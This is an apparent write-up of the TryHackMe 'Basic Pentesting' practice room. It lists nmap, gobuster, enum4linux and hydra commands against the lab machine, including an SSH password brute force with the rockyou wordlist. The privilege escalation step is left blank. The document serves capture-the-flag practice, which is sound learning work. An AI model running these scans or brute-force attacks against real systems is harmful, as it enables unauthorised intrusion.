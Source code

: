 # [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

> This is a machine that allows you to practise web app hacking and privilege escalation

## Scanning

scan the machine

```
nmap -A -T4 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201595571-66955a77-92c2-4595-8b18-7bc2fb6a639b.png)

There are 6 open and 6 filterd ports (total 12) to discover

## HTTP

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/201596415-920d1fe7-db23-45b1-9e5b-cfcdd09538f4.png)

nothing here

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.3.159/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/201596771-7e2d4256-9eaa-48ac-add1-3bfcdc486e68.png)

we find an endpoint at /development

![image](https://user-images.githubusercontent.com/90561566/201596974-894f4168-30ad-44b6-8d77-d9ef6ccbbffc.png)

j.txt

![image](https://user-images.githubusercontent.com/90561566/201597065-11314392-492f-444f-aa6d-8551acf64d46.png)

dev.txt

![image](https://user-images.githubusercontent.com/90561566/201597215-b8a10c73-6708-487a-b95e-4bc690a7008e.png)

hmm, we will use enum4linux to enumerate users 

```
enum4linux -a 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201598898-fb5ba835-85af-45d9-92e4-bc10a91601ef.png)

we can see 2 users are `kay` and `jan` aka K & J in the previous task

## Exploitation

now we use hydra to brute force the password

we have the information about the open ports and SSH is a great candidate

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.3.159
```

wait about 8 mins, there is your password








| Flag | user.txt |
| --- | --- |
| Answer | <flag> |

## Privilege Escalation

.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
